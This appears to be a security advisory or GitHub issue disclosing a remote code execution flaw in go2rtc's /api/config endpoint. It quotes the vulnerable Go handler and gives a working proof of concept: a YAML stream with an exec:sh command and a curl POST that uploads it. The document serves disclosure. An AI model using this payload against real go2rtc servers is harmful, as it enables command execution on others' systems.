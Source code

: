 # Go2RTC Remote Code Execution

## 1.Description
The Go2RTC configuration management API endpoint (/api/config) contains an arbitrary configuration write vulnerability. Authenticated attackers can submit malicious YAML configurations through this endpoint, bypassing semantic validation and writing dangerous configurations to the system. When the system loads these configurations and accesses the associated streams, arbitrary system commands can be executed through the `exec:` protocol, leading to remote code execution (RCE).

## 2.Affected Versions
All versions of go2rtc that include the configuration API endpoint with the described behavior.

## 3. Root Cause
### 3.1 Fundamental Cause
The root cause of the vulnerability lies in the `configHandler` function in the `internal/api/config.go` file, which lacks semantic validation of configuration content. The system only validates the correctness of YAML syntax but does not check the security of the configuration content.

### 3.2 Vulnerable Code Analysis
```go
// Fragment of configHandler function in internal/api/config.go
case "POST", "PATCH":
    // Read raw user input without content validation
    data, err := io.ReadAll(r.Body)
    if err != nil {
        http.Error(w, err.Error(), http.StatusBadRequest)
        return
    }

    if r.Method == "PATCH" {
        // Merge YAML without content validation
        data, err = mergeYAML(app.ConfigPath, data)
        if err != nil {
            http.Error(w, err.Error(), http.StatusBadRequest)
            return
        }
    } else {
        // Only validate YAML syntax, not content security
        if err = yaml.Unmarshal(data, map[string]any{}); err != nil {
            http.Error(w, err.Error(), http.StatusInternalServerError)
            return
        }
    }

    // Directly write unvalidated configuration file
    if err = os.WriteFile(app.ConfigPath, data, 0644); err != nil {
        http.Error(w, err.Error(), http.StatusInternalServerError)
        return
    }
```

### 3.3 Execution Chain
1. Attacker sends malicious YAML configuration to `/api/config`
2. Server only validates YAML syntax, not content security
3. Malicious configuration is directly written to configuration file
4. System registers `exec:` protocol handler when loading new configuration
5. Command execution is triggered when user accesses stream

## 4.PoC
Step 1: Create malicious configuration
   ```malicious_config.yaml
   streams:
     malicious_stream: exec:sh -c "whoami>/tmp/poc1.txt"
   ```
Step 2: Upload malicious configuration
```
curl -X POST "http://localhost:1984/api/config" \
  -H "Content-Type: application/yaml" \
  -d "$(cat malicious_config1.yaml)" \
  -w "HTTP Status: %{http_code}\n"
```

## 5. Vulnerability Impact

- **Remote Code Execution**: Attackers can execute arbitrary system commands
- **Privilege Escalation**: Commands execute with Go2RTC process privileges
- **Persistent Access**: Configuration changes persist after system reboot
- **Data Leakage**: Access to sensitive system files and data
- **Service Denial**: Resource exhaustion commands can cause service disruption

---------------------
## https://github.com/AlexxIT/go2rtc/issues/1878
